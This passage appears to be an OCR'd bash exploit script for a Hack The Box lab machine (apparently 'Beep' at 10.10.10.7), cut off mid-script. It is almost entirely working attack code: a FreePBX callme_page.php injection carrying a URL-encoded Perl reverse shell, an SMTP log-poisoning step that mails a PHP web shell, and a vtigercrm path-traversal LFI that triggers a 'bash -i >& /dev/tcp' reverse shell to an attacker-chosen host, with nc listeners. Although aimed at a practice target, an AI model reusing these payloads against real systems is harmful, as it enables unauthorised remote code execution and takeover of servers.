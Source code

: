 ```shell


rce_vuln(){
    echo "[+] RCE via FreePBX"
    set -m &>/dev/null
    read -p "[+] LHOST: " lhost
	read -p "[+] LPORT: " lport
    nc -lvnp $lport &
    rce=$(curl -sk "https://10.10.10.7/recordings/misc/callme_page.php?action=c&callmenum=233@from-internal/n%0D%0AApplication:%20system%0D%0AData:%20perl%20-MIO%20-e%20%27%24p%3dfork%3bexit%2cif%28%24p%29%3b%24c%3dnew%20IO%3a%3aSocket%3a%3aINET%28PeerAddr%2c%22$lhost%3a$lport%22%29%3bSTDIN-%3efdopen%28%24c%2cr%29%3b%24%7e-%3efdopen%28%24c%2cw%29%3bsystem%24%5f%20while%3c%3e%3b%27%0D%0A%0D%0A")
    fg %1
}

smtp_log_poisoning(){
    echo "[+] SMTP Log Poisoning and Execute via LFI to RCE"
    which swaks &>/dev/null
    if [ $? -eq 0 ]; then
        swaks --to asterisk@localhost --from wixnic@helo.htb --header "Subject: Shell" --body 'PHP code: <?php system($_REQUEST["cmd"]); ?>' --server 10.10.10.7
    else
        read -p "[+] The package 'swaks' is not installed, do you want to install it? (yes/no) " answer
        if [ $answer = "yes" ]; then
            sudo apt update &>/dev/null && sudo apt install swaks -y &>/dev/null
            swaks --to asterisk@localhost --from wixnic@helo.htb --header "Subject: Shell" --body 'PHP code: <?php system($_REQUEST["cmd"]); ?>' --server 10.10.10.7
        else
            echo "[+] You can just use another attack vector or use telnet and send this payload in a email: <?php system($_REQUEST["cmd"]); ?>' "
            exit 0
        fi
    fi 
    set -m &>/dev/null
    read -p "[+] LHOST: " lhost
	read -p "[+] LPORT: " lport
    nc -lvnp $lport &
    rce=$(timeout 4 curl -sk "https://10.10.10.7/vtigercrm/graph.php?current_language=../../../../../../../../var/mail/asterisk%00&module=Accounts&action" --data-urlencode "cmd=bash -i >& /dev/tcp/$lhost/$lport 0>&1")
    fg %1
}

help(){
	echo "[!] Usage: $0 -p [1-4]"
    echo "[!] Example: $0 -p 1"
    echo -e "\n1 = Shellshock\n2 = LFI File Disclosure SSH Login\n3 = RCE Vulnerability\n4 = SMTP Log Poisoning"
}

[ $# -eq 0 ] && help

while getopts 'p:' arg; do
  case "${arg}" in
    p) parameter=${OPTARG}
    if [ "$parameter" == "1" ]; then
        shellshock
	elif [ "$parameter" == "2" ]; then
		lfi
    elif [ "$parameter" == "3" ]; then
        rce_vuln
    elif [ "$parameter" == "4" ]; then
```